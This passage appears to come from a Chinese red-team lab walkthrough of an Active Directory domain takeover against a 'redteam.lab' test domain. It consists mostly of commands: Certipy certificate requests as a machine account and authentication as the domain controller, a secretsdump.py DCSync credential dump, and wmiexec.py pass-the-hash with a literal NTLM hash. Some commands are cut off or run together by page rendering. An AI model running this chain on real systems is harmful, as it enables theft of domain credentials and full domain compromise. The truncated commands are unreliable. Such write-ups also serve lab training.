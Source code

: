 ``

使用Certipy工具申请证书。

    
          * 
    
    
    
    certipy req 'redteam.lab/CPT01$:Passw0rd@DC2016.redteam.lab' -ca 'redteam-DC2016-CA' -template 'Machine'

### （向右滑动、查看更多）

  

``

同样使用Certipy工具申请票据。

    
          * 
    
    
    
    certipy auth -pfx dc2016.pfx -username DC2016$ -domain redteam.lab-dc-ip 10.10.2.20 

### （向右滑动、查看更多）

  

``

获取到域控机器账户的Hash后，可以执行DCSync攻击。

    
          * 
    
    
    
    KRB5CCNAME=dc2016.ccache python3 secretsdump.py -k redteam.lab/DC2016\$@dc20

### （向右滑动、查看更多）

  

``

使用wmiexec等工具获取域控权权限。

    
          * 
    
    
    
    python3 wmiexec.py -hashes :83a140d89e42046e8daf5394d386a69a redteam.lab/administrator@10.10.2.20 -dc-ip 10.10.2.20

（向右滑动、查看更多）  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221202191736.png)  
  

精彩推荐

  
  
  
  